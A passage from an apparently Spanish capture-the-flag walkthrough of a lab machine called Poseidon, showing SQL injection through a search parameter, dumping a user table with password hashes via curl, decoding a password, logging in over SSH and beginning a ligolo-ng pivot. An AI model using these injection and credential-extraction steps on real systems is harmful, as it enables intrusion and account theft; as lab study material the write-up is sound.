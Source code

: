 Probamos a ver si hay alguna **SQLi** en el buscador:

```bash
$ ghauri -u http://20.20.20.3/database.php --data 'buscar=a' --dbs
Parameter: buscar (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: buscar=a" AND 08905=8905– wXyW
```

Vemos que hay una vulnerabilidad pero es un falso positivo. Probamos a ver si la BBDD es en sqlite ya que las herramientas no están preparadas para hacer inyecciones a sqlite. Le hacemos una consulta para ver los nombres de las tablas:

```bash
$ curl --data 'buscar=select%20name%20from%20sqlite_master' http://20.20.20.3/database.php
dioses_semidioses<br />
sqlite_sequence<br />
powers<br />
usuarios<br />
sqlite_autoindex_usuarios_1<br />
sqlite_autoindex_usuarios_2<br />
contrasena<br />
sqlite_autoindex_contrasena_1<br />
atlantis<br />
```

Encontramos varias tablas, hacemos un dump de la tabla **atlantis**:

```bash
$ curl --data 'buscar=select%20*%20from%20atlantis' http://20.20.20.3/database.php
1 | Poseidón | $sha1$oceanos$QqFgxFPmqRex1ZKFCZ2ONJKWOTTNKFTU46SBM5ZKFCZ2ONJKWOTTNKFTU4GQPdkh3nQSWp3I=<br />
2 | megalodon | $sha1$hahahaha$JZKFCZ2ONJKWOTTNKFTU46SBM5HG2TLHJV5ECZ2NPJEWOTL2IFTU26SFM5GXU23HJVVEKPI=<br />
```

Encontramos 2 usuarios con su correspondiente contraseña. Desciframos la contraseña de la misma manera que desciframos la anterior:

```bash
$ echo 'JZKFCZ2ONJKWOTTNKFTU46SBM5HG2TLHJV5ECZ2NPJEWOTL2IFTU26SFM5GXU23HJVVEKPI=' | base32 -d | base64 -d | xxd -r -p
Templ02019!
```

Nos conectamos con el usuario **megalodon** y la contraseña a la máquina **Poseidon**:

```bash
$ ssh megalodon@20.20.20.3
megalodon@20.20.20.3's password:
$ whoami
megalodon
$
```

Ahora necesitamos pasar el agente a la máquina Poseidon, y como tenemos el servidor web en python en la red 10.10.10.0 y esta máquina esta en el segmento 20.20.20.0 no podemos conectarnos directamente para descargar el agent. Ligolo-ng tiene una funcionalidad que sirve para hacer **port forwarding** y asi poder llegar de una red a otra. Ejecutamos `listener_add`: 
